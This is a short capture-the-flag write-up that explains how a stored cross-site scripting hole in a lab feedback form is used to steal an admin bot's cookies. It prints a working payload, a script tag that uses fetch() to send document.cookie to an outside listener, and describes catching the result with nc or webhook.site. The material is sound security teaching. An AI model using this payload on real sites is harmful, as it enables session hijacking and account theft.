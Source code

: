 # NGPEW Feedback Form
# Difficulty: Easy

Prompt: I found this feedback form on NGPEW's website, but I'm not convinced that their admins are actually
reading the feedback. In case they are, can you steal their cookies? I have a feeling there's something 
hidden there.

From the prompt, it seems like we need to steal the admin's cookies somehow. By using the feedback form, we
notice that the form seems to wait a few seconds, then responds with "An admin has reviewed your feedback."
In addition, the website gives us a link to see the admin view of our feedback.

Let's try putting in an HTML tag as our payload and looking at the admin view: 
`<b>test</b>`

We see that the b tag was not filtered and is shown directly to the admin. This indicates that there is a 
Cross-Site Scripting (XSS) vulnerability. 

We can leak the admin's cookies by writing some JavaScript that sends `document.cookies` to some remote 
website. For example, I can log onto `skipper.cs.utexas.edu` and run `nc -l 3000`. This opens a TCP 
listener on port 3000, which I can then send an HTTP request to, since HTTP runs on TCP. Once I have this
listener open, I can use the following payload to get JavaScript running on the admin view and leak the 
cookies to my remote server through an HTTP request:  
```<script>fetch('http://chicken-avocado-wrap.cs.utexas.edu:3000/' + document.cookie)</script>```

Finally, the flag appears in my `nc` console. 

#### Option 2:
- use webhook.site or any other service that can listen in
- apply the payload as before with the updated address and the flag will appear in the get request
